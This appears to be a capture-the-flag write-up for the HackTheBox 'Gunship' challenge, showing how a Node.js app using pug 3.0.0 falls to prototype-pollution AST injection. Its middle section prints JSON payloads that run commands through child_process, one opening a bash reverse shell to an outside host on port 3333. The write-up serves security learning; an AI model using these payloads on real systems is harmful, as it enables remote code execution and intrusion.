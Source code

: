 # HackTheBox-Gunship

We are giving an archive file to download which is password protected with `hackthebox`

<img src="https://i.imgur.com/9AULt0y.png"/>

On extracting the archive we can some files , also let's look at the web page

<img src="https://i.imgur.com/B5VZE37.png"/>

At the bottom we can see an input field

<img src="https://i.imgur.com/zU2RzWx.png"/>

If we try to enter a random name it will tell us to enter the existing name of an artist

<img src="https://i.imgur.com/cD6OVRa.png"/>

We can see two artists names in Gunship's timeline

<img src="https://i.imgur.com/2o1liNP.png"/>

And these are valid

<img src="https://i.imgur.com/YreEn0D.png"/>

If we look at the source code of `index.js` we can clearly see which names it accepts 

<img src="https://i.imgur.com/nGa059G.png"/>

But there's something else to note as well as this node js application is using `pug` module and we look at the version it's 3.0.0 which we can search on google for vulnerabilites which is vulnerable to `prototype pollution`

<img src="https://i.imgur.com/54sFkVk.png"/>

https://blog.p6.is/AST-Injection/#Pug

Now we cannot use the Poc which is used in the above link as we require to make a POST request and in this case we can't make any requests through ourselves as the express js  would send 404 status code and won't deal with any request

<img src="https://i.imgur.com/oBF11kc.png"/>

So we could use `burp suite` to intercept the request and our exploit along with the data that is being submitted

```json
{
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
    }
}
```

We may need to edit this as we can't get a reverse shell as we are given a public IP so we could just only try to execute commands

```json
{
    "artist.name": "Westaway",
    "__proto__.block": 
    {
        "type": "Text",
        "line": "test;process.mainModule.require('child_process').execSync(`id`)",
        "val": "THIS IS THE VALUE"
    } 
}
```

<img src="https://i.imgur.com/DNgAuhI.png"/>

Here we cannot see the command that we want to execute so we need to use `return` keyword that would return the output of the command

<img src="https://i.imgur.com/HOGicBP.png"/>

It's returning in buffer format so we need to change the encoding and we can do that by adding `{encoding:'utf-8'}`

<img src="https://i.imgur.com/uGKJ2uy.png"/>

For the flag as the flag file name is a randomly generated name

<img src="https://i.imgur.com/u6hWHbz.png"/>

<img src="https://i.imgur.com/TPVcWWX.png"/>
